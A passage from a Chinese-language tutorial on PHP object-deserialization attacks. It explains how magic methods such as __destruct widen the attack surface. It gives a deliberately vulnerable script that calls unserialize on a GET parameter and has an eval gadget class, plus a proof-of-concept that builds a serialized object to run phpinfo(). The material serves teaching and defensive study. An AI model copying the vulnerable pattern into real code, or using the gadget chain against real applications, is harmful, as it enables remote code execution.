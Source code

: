 原来有一个实例化出的对象，然后又反序列化出了一个对象，就存在两个对象，所以最后销毁了两个对象也就出现了执行了两次`__destruct`

### 魔术方法在反序列化攻击中的作用

我们都知道反序列化的入口是在`unserialize()`，只要参数可控并且这个类在当前作用域存在，我们就能传入任何已经序列化的对象。而不是局限于出现`unserialize()`函数的类的对象，如果只能局限于当前类，那攻击面就太小了，而且反序列化其他类对象只能控制属性，如果你没有完成反序列化后的代码中调用其他类对象的方法，还是无法利用漏洞进行攻击

但是利用魔术方法就可以扩大了攻击面，魔术方法是在该类序列化或者反序列化的同时自动完成的，这样就可以利用反序列化中的对象属性来操控一些能利用的函数，达到攻击的目的

例如:

```php
<?php
class M0c1nu7{
    public $M0c1nu7 = 'I am M0c1nu7';
    private $test;

    function __construct(){
        $this->test = new Welcome();
    }

    function __destruct(){
        $this->test->action();
    }
}

class Welcome{
    function action(){
        echo "Welcome to here";
    }
}

class Evil{
    var $test2;
    function action(){
        eval($this->test2);
    }
}

unserialize($_GET['str']);
?>
```

首先来分析一下代码，主要是看哪里的属性可控，并且哪里有对象调用方法的操作，我们的目的很清楚，就是要调用`Evil`类中的`action()`方法，并且控制`Evil`类中的`$test2`这个属性。可以看到`M0c1nu7`类中的魔术方法`__construct`有把对象赋到`$teset`属性上，然后在`__destruct()`有调用`action()`方法的操作，那就这思路就很清晰了，POC如下：

```php
<?php 
class M0c1nu7{
	private $test;
	function __construct(){
		$this->test = new Evil;
	}
}

class Evil{
	var $test2 = 'phpinfo();';
}

$M0c1nu7 = new M0c1nu7();
$data = serialize($M0c1nu7);
echo $data;
?>
```
